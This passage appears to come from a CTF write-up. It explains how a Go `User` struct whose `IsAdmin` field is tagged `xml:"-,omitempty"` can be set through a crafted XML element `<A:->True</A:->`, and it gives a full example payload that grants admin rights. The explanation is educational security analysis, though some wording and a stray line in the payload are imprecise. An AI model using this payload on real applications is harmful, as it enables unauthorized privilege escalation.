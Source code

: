 <img src="/assets/CTF/BlackhatQual2025/image1.png" alt="Application running"/>


### Vulnerability Explanation

The Go `User` struct

```go
type User struct {
    Username string `json:"username" xml:"username"`
    Password string `json:"password" xml:"password"`
    IsAdmin  bool   `json:"-"  xml:"-,omitempty"`
}
```

* `IsAdmin` is **not supposed to come from XML or JSON**.
* However, **Go's `encoding/xml` can be tricked** with a malformed XML tag like:

```xml
<A:->True</A:->
```

* Normally, Go ignores unknown fields, but a specially crafted XML can populate private or omitted fields (`IsAdmin`).

Example payload:

```xml
<User>
  <username>alice</username>
  <password>supersecret</password>
  >
  <A:->True</A:->
</User>
```

**This sets `IsAdmin = true` internally.**

---